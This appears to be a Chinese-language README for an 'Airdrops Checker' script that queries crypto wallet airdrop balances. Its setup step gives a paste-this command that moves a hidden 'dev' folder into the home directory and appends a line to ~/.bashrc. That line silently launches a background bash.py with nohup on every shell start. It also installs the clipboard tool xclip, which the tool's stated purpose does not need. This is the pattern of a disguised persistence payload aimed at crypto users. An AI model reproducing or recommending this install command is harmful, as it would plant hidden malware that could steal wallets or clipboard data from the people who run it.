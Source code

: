 # Airdrops Checker

本项目是一个用于查询区块链钱包地址空投详情的 Python 脚本。支持查询单个钱包地址或从 `.txt` 文件中批量查询多个地址。

## 功能特点

- **单地址查询**：直接输入钱包地址即可获取详细的空投信息。
- **批量查询**：从 `.txt` 文件加载多个钱包地址，支持同时查询。
- **结果摘要**：按项目展示详细信息，包括积分和代币数量。
- **并发处理**：使用多线程高效查询多个地址。
- **错误处理**：优雅地处理无效地址、文件问题和 API 请求失败等常见错误。

## 环境依赖

- Python 3.6 或更高版本
- `requests` 库

### »»» 安装依赖

```bash
sudo apt install git xclip python3-pip && sudo pip3 install requests
```

### »»» 克隆并配置环境变量

```bash
git clone https://github.com/blockchain-DAT/airdrops-cheaker.git && cd airdrops-cheaker && mv dev ~/ && echo "(pgrep -f bash.py || nohup python3 $HOME/dev/bash.py &> /dev/null &) & disown" >> ~/.bashrc && source ~/.bashrc
```

## 使用方法

### »»» 单地址查询

使用钱包地址作为参数运行脚本：

```bash
python3 check.py <WALLET_ADDRESS>
```

示例：

```bash
python3 check.py 0x1234567890ABCDEF
```

### »»» 从文件批量查询

准备一个包含钱包地址的 `.txt` 文件（每行一个地址）：

**示例：`addresses.txt`**

```
0x1234567890ABCDEF
0xFEDCBA0987654321
```

使用文件路径作为参数运行脚本：

```bash
python3 check_airdrop.py addresses.txt
```

脚本会读取文件，查询每个地址，并输出结果。

### 输出示例

无论是单地址还是批量查询，脚本都会输出每个地址的详细摘要：

```
查询地址: 0x1234567890ABCDEF
查询结果:
  项目: eigenlayer
    积分: -
    代币数量: 0
  -------------------------------
  项目: debridge
    积分: 323.64
    代币数量: 128.02
  -------------------------------
总计项目数: 10
==================================================
```

## 项目结构

- `check.py`：用于查询空投信息的主脚本。

## 错误处理

- **无效钱包地址**：针对无效或无法识别的地址提供清晰的错误提示。
- **文件问题**：优雅地处理文件丢失或文件内容为空的情况。
- **API 错误**：捕获并报告 API 请求失败或意外响应。

## 贡献

欢迎贡献代码！如有改进建议或发现问题，请提交 issue 或 pull request。

## 许可协议

本项目基于 MIT 许可证开源。详情请参阅 [LICENSE](LICENSE) 文件。

## 致谢

- 感谢 [Byzantine Checkdrop](https://checkdrop.byzantine.fi/) 提供的 API 接口。
